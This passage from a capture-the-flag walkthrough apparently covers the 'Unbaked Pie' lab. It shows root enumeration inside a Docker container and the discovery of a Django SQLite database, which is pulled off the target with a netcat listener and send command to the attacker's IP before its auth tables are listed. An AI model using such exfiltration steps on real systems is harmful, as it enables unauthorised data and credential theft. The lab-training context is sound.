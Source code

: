 I'm root **inside a docker container**!

## Privilege Escalation

### Docker root to host ramsey

Let's do some basic enumerations!

**Found `.dockerenv` file in `/`:**
```
root@8b39a559b296:/home# ls -lah /
total 76K
drwxr-xr-x   1 root root 4.0K Oct  3  2020 .
drwxr-xr-x   1 root root 4.0K Oct  3  2020 ..
-rwxr-xr-x   1 root root    0 Oct  3  2020 .dockerenv
[...]
```

This indicates that we're inside a docker container.

**Found SQLite database file in `/home/site`:**
```shell
root@8b39a559b296:/home/site# ls -lah
total 184K
drwxrwxr-x 1 root root 4.0K Oct  3  2020 .
drwxr-xr-x 1 root root 4.0K Oct  3  2020 ..
drwxrwxr-x 1 root root 4.0K Oct  3  2020 account
drwxrwxr-x 8 root root 4.0K Oct  3  2020 assets
drwxrwxr-x 1 root root 4.0K Oct  3  2020 bakery
-rw-r--r-- 1 root root 148K Oct  3  2020 db.sqlite3
drwxrwxr-x 1 root root 4.0K Oct  3  2020 homepage
-rwxrwxr-x 1 root root  662 Oct  3  2020 manage.py
drwxrwxr-x 2 root root 4.0K Oct  3  2020 media
drwxrwxr-x 3 root root 4.0K Oct  3  2020 templates
```

**Let's transfer it!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:49:34]
└> nc -lnvp 4444 > db.sqlite3

root@8b39a559b296:/home/site# nc 10.9.0.253 4444 < db.sqlite3
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:50:30]
└> sqlite3 db.sqlite3 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
```
